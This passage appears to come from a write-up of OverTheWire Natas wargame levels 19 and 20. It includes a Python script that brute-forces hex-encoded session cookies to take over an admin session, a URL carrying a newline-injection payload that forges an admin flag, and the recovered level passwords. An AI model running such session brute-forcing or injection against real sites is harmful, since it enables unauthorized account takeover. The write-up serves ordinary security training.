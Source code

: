 ```
tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr
```

# 19

```
Username: natas19
URL:      http://natas19.natas.labs.overthewire.org
```

According to the website it is similar to the previous levels except the session ID is not sequential. I logged in as "admin" with a random password, saw the cookie and realized it was in hexadecimal, `3538302d61646d696e`, which translates to `580-admin`. So we just do the same thing as last time except add the extra text and convert to hex.

```python
import requests
target = 'http://natas19.natas.labs.overthewire.org'
webauth = ('natas19','tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')

for uid in range(640):
    newid = (str(uid) + "-admin").encode("utf-8").hex()
    r = requests.get(target,
        auth=webauth,
        cookies={"PHPSESSID": newid}
    )
    print("ID: " + newid)
    if "You are an admin. The credentials for the next level are:" in r.text:
        print(r.text.split("Password:")[1].split('<')[0].strip())
        break
```

We get this at ID: 281

```
p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw
```

# 20

```
Username: natas20
URL:      http://natas20.natas.labs.overthewire.org
```

For this one it seems the cookie is completely random, but the source code changes how it is read and written. I was stumped in this level, but after looking around, I found out that it uses a file to store two values: `name` and `admin`, and they are stored in plaintext and are separated with a newline character. We can only set `name` however, and we need to do this through the URL only. I did `http://natas20.natas.labs.overthewire.org/index.php?name=admin%0Aadmin+1`, then refreshed the page. Sometimes this didn't work and I had to delete the cookie beforehand.

```
You are an admin. The credentials for the next level are:

Username: natas21
Password: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH
```
